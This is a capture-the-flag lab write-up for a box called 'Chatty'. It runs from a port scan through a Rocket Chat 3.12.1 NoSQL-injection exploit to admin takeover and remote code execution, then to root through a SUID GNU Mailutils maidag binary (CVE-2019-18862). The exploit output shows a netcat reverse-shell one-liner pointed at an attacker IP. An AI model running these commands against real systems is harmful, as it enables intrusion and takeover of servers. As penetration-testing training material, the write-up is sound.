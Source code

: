 # Chatty

## Gaining Access

Nmap scan:

```
$ nmap -p- --min-rate 1000 192.168.183.164
Starting Nmap 7.93 ( https://nmap.org ) at 2023-07-11 21:32 +08
Warning: 192.168.183.164 giving up on port because retransmission cap hit (10).
Nmap scan report for 192.168.183.164
Host is up (0.17s latency).
Not shown: 65500 closed tcp ports (conn-refused), 33 filtered tcp ports (no-response)
PORT     STATE SERVICE
22/tcp   open  ssh
3000/tcp open  ppp
```

### Rocket Chat --> Admin Takeover

Port 3000 hosted an instance of Rocket Chat:

<figure><img src="../../../.gitbook/assets/image (69) (1).png" alt=""><figcaption></figcaption></figure>

We can enumerate the version by visiting the `/api/info` page:

```
$ curl http://192.168.183.164:3000/api/info | jq 
{
  "version": "3.12.1",
  "success": true
}
```

This version of Rocket Chat is vulnerable to a NoSQL Injection exploit:

```
$ searchsploit rocket chat 3.12
----------------------------------------------------------- ---------------------------------
 Exploit Title                                             |  Path
----------------------------------------------------------- ---------------------------------
Rocket.Chat 3.12.1 - NoSQL Injection (Unauthenticated)     | linux/webapps/49960.py
Rocket.Chat 3.12.1 - NoSQL Injection to RCE (Unauthenticat | linux/webapps/50108.py
----------------------------------------------------------- ---------------------------------
```

I registered a new account and found the administrator profile of this instance:

<figure><img src="../../../.gitbook/assets/image (98) (1).png" alt=""><figcaption></figcaption></figure>

We can use `50108.py` to exploit this. Since we created our own low priv user, we can comment the part of the script that resets the low priv user's password:

<figure><img src="../../../.gitbook/assets/image (113) (2).png" alt=""><figcaption></figcaption></figure>

Then, we also need to change the `password` of the low priv user to the one that we used.&#x20;

<figure><img src="../../../.gitbook/assets/image (59).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../.gitbook/assets/image (39) (2).png" alt=""><figcaption></figcaption></figure>

After running the exploit, we would be given RCE access, and getting a reverse shell is pretty simple:

```
$ python3 50108.py -u 'test@website.com' -a 'admin@chatty.offsec' -t 'http://192.168.183.164:3000'
[+] Succesfully authenticated as test@website.com
Got the code for 2fa: GJLFCKKOOBCVOYSCOJYHCUZ7NAUSUMKYEZAF43RVJ5KC62JYGVYA
[+] Resetting admin@chatty.offsec password
[+] Password Reset Email Sent
[+] Succesfully authenticated as test@website.com
Got the reset token: GsL4Y53r7id414kW7PYJsZVO5YkZkkz4eCvPOrybMkl
[+] Admin password changed !
CMD:> rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|bash -i 2>&1|nc 192.168.45.184 21 >/tmp/f
[+] Succesfully authenticated as administrator
{"success":false}
```

<figure><img src="../../../.gitbook/assets/image (44) (1).png" alt=""><figcaption></figcaption></figure>

## Privilege Escalation

### SUID Binary --> MaiDag CVE

I searched for SUID binaries within the system, and found one that stood out:

```
rocketchat@chatty:~$ find / -perm -u=s -type f 2>/dev/null
<TRUNCATED>
/usr/local/sbin/maidag
```

I didn't recognise `maidag`, and so enumerated it first.&#x20;

```
rocketchat@chatty:~$ /usr/local/sbin/maidag --version
maidag (GNU Mailutils) 3.7
Copyright (C) 2007-2019 Free Software Foundation, inc.
License GPLv3+: GNU GPL version 3 or later <http://gnu.org/licenses/gpl.html>
This is free software: you are free to change and redistribute it.
There is NO WARRANTY, to the extent permitted by law.
```

Googling the binary and its version returns a Local Privilege Escalation exploit:

{% embed url="https://www.exploit-db.com/exploits/47703" %}

There are online exploits on Github to make this process as easy as possible:

{% embed url="https://github.com/bcoles/local-exploits/tree/master/CVE-2019-18862" %}

I used `exploit.ldpreload.sh` and ran it on the machine. This would spawn a binary `sh` within `/var/tmp` that would give us a `root` shell.&#x20;

<figure><img src="../../../.gitbook/assets/image (81).png" alt=""><figcaption></figcaption></figure>

Rooted!
